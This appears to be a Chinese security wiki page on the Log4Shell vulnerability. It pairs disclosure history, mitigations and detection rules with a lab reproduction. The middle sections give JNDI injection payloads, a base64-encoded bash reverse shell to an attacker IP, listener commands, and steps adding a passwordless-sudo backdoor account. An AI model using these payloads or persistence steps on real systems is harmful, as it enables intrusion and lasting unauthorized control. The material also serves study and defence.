

## 概述

**Log4Shell (CVE-2021-44228)** 是 Apache Log4j 2 中的一个严重远程代码执行漏洞，影响版本 2.0-beta9 至 2.14.1。攻击者可通过构造恶意 JNDI 查询载荷（如 `${jndi:ldap://attacker.com/payload}`），触发 Log4j2 的 JNDI 查找功能，从远程 LDAP/RMI 服务器加载恶意 Java 类并执行任意代码。

本页面基于实战复现记录，系统梳理从漏洞披露时间线、供应链影响范围、初期缓解建议到环境搭建、漏洞验证、JNDI 注入利用、反弹 Shell 及权限维持的完整攻击链，并关联内网渗透、C2 基础设施、漏洞测试框架等后续利用生态。

## 漏洞披露时间线与背景

### 关键时间节点

| 时间 | 事件 | 说明 |
|------|------|------|
| **2021-11-24** | **阿里云安全团队向 Apache 官方报告漏洞** | 阿里云应急响应中心发现并负责任地披露，触发官方修复流程 |
| **2021-12-09** | 漏洞细节公开，PoC/EXP 广泛传播 | 互联网上出现大量利用代码，在野利用活动激增 |
| **2021-12-10** | Apache 发布 log4j-2.15.0-rc1 版本 | 首个修复版本，地址：<https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1> |
| **2021-12-13** | Apache 发布 2.15.0 正式版 | 修复 CVE-2021-44228，但后续发现绕过导致 CVE-2021-45046 |
| **2021-12-17** | Apache 发布 2.16.0 版本 | 彻底禁用 JNDI 查找，移除 Message Lookup 机制 |
| **2021-12-28** | Apache 发布 2.17.0/2.17.1 版本 | 修复 CVE-2021-45105 (DoS) 及 CVE-2021-44832 (RCE) |

### 漏洞成因简述

Apache Log4j2 的 `MessagePatternConverter` 在处理 `${prefix:name}` 语法时，支持递归解析与 JNDI 查找功能。当 `prefix` 为 `jndi` 时，会触发 `JndiManager.lookup()` 发起远程 JNDI 查找，攻击者可控制 LDAP/RMI 服务器返回恶意 Java 类引用，目标 JVM 在反序列化/类加载过程中执行任意代码。**利用无需特殊配置，默认即可触发。**

## 供应链影响范围（下游组件清单）

因 Log4j2 作为 Java 生态核心日志框架，大量上游框架/中间件传递依赖受影响。阿里云安全团队验证及社区确认的**已知受影响应用及组件**包括但不限于：

| 组件/框架 | 说明 | 典型影响版本 |
|-----------|------|--------------|
| **Apache Struts 2** | 核心 Web 框架，历史高危漏洞重灾区 | 所有依赖 Log4j2 的版本 |
| **Apache Solr** | 搜索平台，Admin UI / 查询接口可触发 | 所有版本（含 8.x） |
| **Apache Druid** | 实时分析数据库，HTTP 端点记录日志 | 所有版本 |
| **Apache Flink** | 流处理引擎，JobManager/TaskManager 日志 | 所有版本 |
| **spring-boot-starter-logging** / **spring-boot-starter-log4j2** | Spring Boot 默认日志启动器 | 2.x 全系（需排除/升级依赖） |
| **Apache Dubbo** | RPC 框架，Provider/Consumer 端日志 | 2.7.x、3.x |
| **Apache Kafka** | 消息队列，Broker/Connect 日志 | 2.x、3.x |
| **Elasticsearch / OpenSearch** | 搜索引擎，节点日志记录 | 7.x、8.x |
| **VMware vCenter / Horizon** | 企业级虚拟化管理套件 | 多个版本受影响，官方发布紧急补丁 |
| **百度、iCloud 等大型互联网服务** | 早期披露即确认存在漏洞 | — |

> **排查建议**：使用 `mvn dependency:tree | grep log4j`、`gradle dependencies | grep log4j`、`docker image history` 等手段全量梳理资产依赖链。参考 [[vulnerability-mining-recon-aiqicha-fofa]] 资产测绘方法论结合 FOFA/ZoomEye 语法（如 `app="Apache Log4j" || header="log4j"`）进行外部资产发现。

## 初期缓解建议（官方发布 2.15.0-rc1 前后）

在官方修复版本发布前及发布初期，阿里云应急响应中心及社区推荐的**临时缓解措施**：

1. **升级至 log4j-2.15.0-rc1 或更高版本**（首选）  
   下载地址：<https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1>  
   Maven 坐标示例：
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.15.0-rc1</version>
   </dependency>
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-api</artifactId>
       <version>2.15.0-rc1</version>
   </dependency>
   ```

2. **JVM 启动参数禁用 JNDI Lookup**（Log4j 2.10.0+ 有效）  
   `-Dlog4j2.formatMsgNoLookups=true`

3. **移除 JndiLookup 类（物理隔离）**  
   ```bash
   zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
   ```
   针对 Spring Boot Fat Jar 需解压后处理 `BOOT-INF/lib/` 下的 jar 包。

4. **网络层阻断出站 JNDI 协议**  
   防火墙/安全组拦截目标主机向外发起的 LDAP(389/636)、RMI(1099)、LDAPS、HTTP 等疑似恶意类加载请求。

5. **WAF/流量层特征拦截**  
   规则匹配 `${jndi:`、`${lower:`、`${upper:`、`${env:`、`${sys:` 等 Lookup 模式；注意攻击者可使用嵌套编码、Base64、Unicode 混淆绕过。

> **注意**：2.15.0-rc1 仅修复 CVE-2021-44228，后续发现 **CVE-2021-45046**（Thread Context Map 绕过）、**CVE-2021-45105**（递归解析导致 DoS）、**CVE-2021-44832**（非默认配置下 RCE）。**最终建议统一升级至 2.17.1+**（含所有修复）。

## 环境搭建

### 靶场部署

1. 获取 Vulhub Log4j2 靶场镜像或自行构建存在漏洞的 Log4j2 应用（版本 ≤ 2.14.1）
2. 启动靶场服务，默认监听 `8080` 端口
3. 验证访问：`http://<target-ip>:8080/` 可正常打开登录页面

> **参考**：漏洞环境快速部署可参考 [[vulnhub-platform-resource-index]] 中的 VulnHub 靶机获取方式，或使用 Docker Compose 编排含漏洞版本的 Log4j2 应用。

## 漏洞验证与 DNSLog 检测

### Payload 构造原理

Log4j2 的 `MessagePatternConverter` 在处理 `${prefix:name}` 语法时，若 `prefix` 为 `jndi`，会触发 `JndiManager.lookup()` 发起 JNDI 查找。利用 `${sys:java.version}` 可泄露目标 Java 版本，配合 DNSLog 实现无回显验证。

### 验证步骤

1. 生成 DNSLog 域名（如 `0bcjz2.dnslog.cn`）
2. 在登录框用户名/密码字段注入 Payload：
   ```text
   ${jndi:ldap://${sys:java.version}.0bcjz2.dnslog.cn/}
   ```
3. 观察 DNSLog 平台是否接收到类似 `1.8.0_XXX.0bcjz2.dnslog.cn` 的解析请求
4. 若收到请求，确认漏洞存在且可触发 JNDI 查找

> **工具链**：DNSLog 平台可使用 CEYE、Hyuga 或自建 DNSLog；批量验证可结合 [[pocsuite3-vulnerability-testing-framework]] 编写 PoC，或使用 [[sqlmap-api-automation]] 思路构建自动化扫描脚本。

## JNDI 注入利用与反弹 Shell

### 攻击架构



### 实战步骤

#### 启动 JNDI 注入服务

使用常见工具（如 **marshalsec**、**JNDIExploit**、**rogue-jndi**）启动恶意 LDAP/RMI 服务：

```bash
# 示例：使用 marshalsec 启动 LDAP 服务，指定恶意类加载地址
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<attacker-ip>:8000/#Exploit" 1389
```

或使用集成化工具（文中截图工具参数：`-C` 执行命令，`-A` 反弹 Shell 服务器 IP）：

```bash
# 假设工具为 JNDIExploit 或类似
java -jar JNDIExploit-1.0.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xOTguMTk4LjIxNS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" -A <attacker-ip>
```

#### 托管恶意类字节码

在攻击者 HTTP 服务器（Python `http.server` 或 Nginx）根目录放置编译好的 `Exploit.class`，该类在静态代码块/构造函数中执行反弹 Shell 命令。

#### 发送攻击 Payload

在登录框注入：

```text
${jndi:ldap://<attacker-ip>:1389/Exploit}
```
或
```text
${jndi:rmi://<attacker-ip>:1099/Exploit}
```

#### 接收反弹 Shell

攻击者监听端口（如 `nc -lvnp 4444`），成功收到 Shell 后执行交互式终端优化：

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
stty raw -echo; fg
```

> **跨平台利用**：Windows 目标可使用 `cmd.exe /c` 或 PowerShell 反弹载荷；Linux 目标优先使用 Bash 反弹。详细载荷构造可参考 [[xd-security-pentest-basic-stage-notes]] 中的文件上传与 RCE 绕过技巧。

## 权限维持：添加用户与远程登录

### 实战操作

获得低权限 Shell 后，执行以下命令添加持久化账号：

```bash
# 添加用户 admin，密码 Admin@123..
useradd -m -s /bin/bash admin
echo "admin:Admin@123.." | chpasswd

# 授予 sudo 权限（视 /etc/sudoers 配置）
usermod -aG sudo admin
# 或直接写入 /etc/sudoers.d/admin
echo "admin ALL=(ALL) NOPASSWD:ALL" > /etc/sudoers.d/admin
```

### 远程登录验证

```bash
ssh admin@<target-ip>
# 输入密码 Admin@123..
```

> **防御视角**：蓝队可通过审计 `/var/log/auth.log`、`/etc/passwd` 变更、`/etc/sudoers.d/` 新增文件发现异常账号创建。参考 [[xd-security-incident-response-notes]] 中的 Web 攻击溯源、账号异常排查流程。

## 后续利用与内网渗透拓展

成功落地后，可结合以下技术实现横向移动、权限提升、C2 上线：

| 阶段 | 核心技术 | 关联知识页面 |
|------|----------|--------------|
| **内网代理/隧道** | frp、SSH 隧道、SOCKS5、iox、Venom | [[frp内网渗透应用]]、[[internal-network-pivoting-techniques]]、[[iox-proxy-protocol-evasion]] |
| **C2 上线** | Cobalt Strike Beacon、SMB Beacon、External C2、Metasploit 会话传递 | [[cobalt-strike-external-c2-smb-beacon]]、[[metasploit-framework-basics-tutorial]]、[[c2-redirectors-malleable-c2-profiles]] |
| **凭证获取** | Mimikatz、LaZagne、浏览器凭证导出、NTLM 哈希 | [[mimikatz-sekurlsa-pth-internals]]、[[lm-ntlm-hash-generation-analysis]]、[[listed-company-penetration-test-case-study]] |
| **横向移动** | Pass-the-Hash、Pass-the-Ticket、WMI、SMB、RDP、Scheduled Tasks | [[xd-security-internal-network-penetration-notes-day65-66]]、[[xd-security-internal-network-penetration-notes-day67-68]]、[[smb-named-pipe-c2-communication]] |
| **提权** | 内核漏洞、服务配置错误、DLL 劫持、Token 窃取、脏牛 | [[xd-security-privilege-escalation-notes-day58-64]]、[[cve-2022-0847-dirty-pipe-linux-kernel-privilege-escalation]]、[[argument-spoofing-edr-evasion]] |
| **流量对抗** | Malleable C2 Profile、域名前置、CDN 隐匿、加密隧道 | [[c2-redirectors-malleable-c2-profiles]]、[[named-pipe-smb-detection-sysmon]]、[[memory-scanning-tools-evasion-techniques]] |

## 检测与缓解建议

### 临时缓解（升级前）

1. **JVM 参数禁用 JNDI**：`-Dlog4j2.formatMsgNoLookups=true`（Log4j 2.10.0+）
2. **移除 JndiLookup 类**：
   ```bash
   zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
   ```
3. **WAF/网络层拦截**：阻断出站 LDAP/RMI（389/636/1099/1389 等）及 HTTP 协议的恶意类加载请求

### 根本修复

升级至 **Log4j 2.17.1+**（修复 CVE-2021-44228、CVE-2021-45046、CVE-2021-45105、CVE-2021-44832）

### 检测规则

- **网络层**：Suricata/Zeek 规则匹配 `${jndi:`、`${lower:` 等特征；DNSLog 解析异常监控
- **主机层**：Sysmon Event ID 1 监控 `java.exe` 启动子进程（cmd/bash/powershell）；EDR 内存扫描检测恶意类加载
- **日志审计**：应用日志中出现 `${jndi:` 等模式即为攻击尝试

> **威胁情报跟踪**：可关注 [[0x6270-hvv-vulnerability-threat-intelligence]]、[[0x6270-knowledge-planet-team]] 等渠道获取最新 Log4j2 变种利用、绕过技术及在野攻击活动情报。

## 交叉引用索引

- **漏洞原理与利用链**：[[xd-security-pentest-basic-stage-notes]]（RCE 基础）、[[ssrf-bypass-techniques]]（JNDI 类似 SSRF 利用思路）
- **内网渗透实战**：[[shiro-internal-penetration-case-study]]（Shiro RCE 后内网渗透全链路）、[[listed-company-penetration-test-case-study]]（上市公司实战案例）
- **C2 与免杀**：[[inceptor-av-edr-evasion-framework]]、[[cobalt-strike-4.7-bof-internals]]、[[ppl-injection-createprocess-bof-fix]]
- **应急响应**：[[xd-security-incident-response-notes]]、[[threat-attribution-tracing-techniques]]
- **工具开发**：[[pocsuite3-vulnerability-testing-framework]]、[[xd-security-python-security-development-notes]]、[[rust-proc-macro-win32-dynamic-import]]

## 结语

Log4Shell 因其影响面广、利用门槛低、危害极大，成为近年最典型的供应链级 RCE 漏洞。掌握其完整披露时间线、供应链影响范围、初期缓解演进、完整复现流程、JNDI 注入机制、后利用拓展及检测缓解体系，是红蓝对抗、HVV 护网、漏洞研究人员的必修课。建议结合上述交叉引用页面，构建从「漏洞触发 → 落地立足 → 内网横向 → 权限维持 → 溯源清理」的全链路攻防知识图谱。

## 来源

- [0x6270安全团队-202203-202304_46](../sources/0x6270安全团队-202203-202304_46.md)
- [Apache Log4j 远程代码执行漏洞以及修复建议](../sources/Apache Log4j 远程代码执行漏洞以及修复建议.md)
- [0xfafu攻防实验室-202010-202112_04](../sources/0xfafu攻防实验室-202010-202112_04.md)
